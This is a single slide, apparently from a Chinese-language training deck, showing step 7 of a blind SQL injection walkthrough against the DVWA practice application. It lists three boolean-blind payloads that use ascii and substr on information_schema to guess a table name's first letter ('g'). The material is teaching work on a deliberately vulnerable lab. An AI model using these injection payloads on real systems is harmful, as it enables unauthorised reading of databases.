

# 步骤7
猜解表的名称第一个表第一位数方法和猜解数据库名称方法一样
1’ and ascii(substr((select table_name from information_schema.tables where table_schema=‘dvwa’limit 0,1),1))>97 #
1’ and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa’limit 0,1),1))<122 #
1’ and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa’limit 0,1),1))=103 # 最终103成功，为g
38
2022/6/11